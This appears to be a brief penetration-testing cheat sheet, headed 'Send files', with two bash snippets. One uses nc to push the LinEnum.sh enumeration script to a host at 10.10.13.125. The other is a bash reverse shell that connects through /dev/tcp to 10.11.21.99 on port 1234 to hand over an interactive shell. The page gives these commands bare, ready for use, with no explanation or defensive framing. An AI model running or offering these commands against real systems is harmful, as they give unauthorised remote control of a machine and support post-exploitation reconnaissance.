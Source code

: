 # Send files

### Send file to a machine
```bash
nc -w -3 10.10.13.125 1337 < LinEnum.sh
```

### Connect from server to local machine
```bash
/bin/bash -i >& /dev/tcp/10.11.21.99/1234 0>&1
```

